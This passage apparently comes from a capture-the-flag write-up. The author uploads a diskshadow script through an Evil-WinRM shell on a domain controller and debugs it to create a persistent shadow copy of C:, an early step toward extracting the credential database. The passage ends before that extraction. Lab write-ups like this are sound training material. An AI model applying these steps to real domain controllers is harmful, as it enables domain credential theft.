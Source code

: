     -> set context persistent nowriter
    
    SET CONTEXT { CLIENTACCESSIBLE | PERSISTENT [ NOWRITERS ] | VOLATILE [ NOWRITERS ] }
    
            CLIENTACCESSIBLE        Specify to create shadow copies usable by client versions of Windows.
            PERSISTENT              Specify that shadow copy is persist across program exit, reset or reboot.
            PERSISTENT NOWRITERS    Specify that shadow copy is persistent and all writers are excluded.
            VOLATILE                Specify that shadow copy will be deleted on exit or reset.
            VOLATILE NOWRITERS      Specify that shadow copy is volatile and all writers are excluded.
    
            Example: SET CONTEXT CLIENTACCESSIBLE
    

It took me a few minutes to catch the error here. It’s breaking on the first
line. Eventually I noticed that it was failing on the line ending with
`nowriter`, but my input ended with `nowriters` (notice the `s`). That got me
thinking it might have to do with endlines. I ran `unix2dos` on my local host
and uploaded it again.

    
    
    root@kali# unix2dos vss.dsh 
    unix2dos: converting file vss.dsh to DOS format...
    

Now I’ll upload and run:

    
    
    *Evil-WinRM* PS C:\windows\system32> upload vss.dsh c:\programdata\vss.dsh
    Info: Uploading vss.dsh to c:\programdata\vss.dsh
    
                                                                 
    Data: 108 bytes of 108 bytes copied
    
    Info: Upload successful!
    
    *Evil-WinRM* PS C:\windows\system32> diskshadow /s c:\programdata\vss.dsh
    Microsoft DiskShadow version 1.0
    Copyright (C) 2013 Microsoft Corporation
    On computer:  DC01,  6/9/2020 9:05:54 PM
    
    -> set context persistent nowriters
    -> add volume c: alias df
    -> create
    Alias df for shadow ID {6e34c6ee-0d9d-4d6a-bebb-d3a576e30542} set as environment variable.
    Alias VSS_SHADOW_SET for shadow set ID {5d0763c6-f22d-4338-87b2-96e7251a097e} set as environment variable.
    Could not create .cab metadata file. If the metadata file name was specified using
    SET METADATA, the file or directory path name may not be valid.
    

The error message is complaining that it can’t create the `.cab` file. It’s
probably trying to do so in the local directory. I noticed in the examples in
the [Microsoft documentation](https://docs.microsoft.com/en-us/windows-
server/administration/windows-commands/diskshadow) that it used a line to set
the `metadata` location. I’ll add that line, and another from the examples to
turn verbose on (because why not):

    
    